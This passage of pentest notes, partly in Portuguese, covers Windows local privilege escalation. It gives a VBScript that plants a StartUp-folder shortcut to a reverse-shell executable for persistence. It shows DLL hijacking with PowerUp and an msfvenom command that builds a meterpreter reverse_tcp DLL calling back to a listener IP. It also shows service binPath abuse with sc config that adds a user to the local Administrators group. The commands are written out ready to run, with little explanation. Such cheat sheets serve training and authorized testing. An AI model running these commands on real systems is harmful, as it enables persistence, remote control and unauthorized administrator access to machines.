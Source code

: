 
```vb
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```


## DLL Hijacking

- [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)


```
ipmo PowerUp.ps1

Invoke-Allchecks
# Também da com o Winpeas, que é melhor

Find-PathDllHijack

Write-HijackDll -DllPath "C:\temp\<nome da dll>"
# Também da pra criar uma dll com msfvenom: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
# Ou copiar a dll pra dentro da máquina e alterar ela

sc stop dllsvc & sc start dllsvc
```


___

# Paths Escalation

## Binary Path

- Da pra encontrar com o PowerUp com `invoke-allchecks`

```
accesschk64.exe -wuvc <servicename>

Get-ModifiableService
# Com powerup

Invoke-ServiceAbuse -Name <servicename> (will create a local admin john:Password123!)
Invoke-ServiceAbuse -Name <servicename> -Command "net localgroup Administrators user /add"
​
# Manual
​
sc config <servicename> binPath= "cmd.exe /c net localgroup administrators user/add"
sc stop <servicename>
sc start <servicename>
```
